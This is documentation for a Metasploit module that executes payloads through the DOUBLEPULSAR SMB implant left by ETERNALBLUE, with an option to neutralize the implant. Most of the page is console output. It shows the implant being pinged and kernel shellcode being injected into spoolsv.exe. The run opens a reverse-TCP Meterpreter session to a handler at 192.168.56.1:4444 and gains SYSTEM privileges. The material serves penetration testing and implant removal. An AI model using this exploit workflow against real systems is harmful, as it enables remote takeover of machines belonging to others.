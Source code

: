 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for SMB as popularly deployed by ETERNALBLUE.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

### DefangedMode

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

### ProcessName

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > check

[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[+] 192.168.56.115:445 - The target is vulnerable.
msf exploit(windows/smb/smb_doublepulsar_rce) >
```

Executing a payload:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:445 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:445 - Encrypting shellcode with XOR key 0x33C6DC64
[*] 192.168.56.115:445 - Sending shellcode to DOUBLEPULSAR
[+] 192.168.56.115:445 - Payload execution successful
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-09-25 18:26:47 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:445 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/smb_doublepulsar_rce) >
```
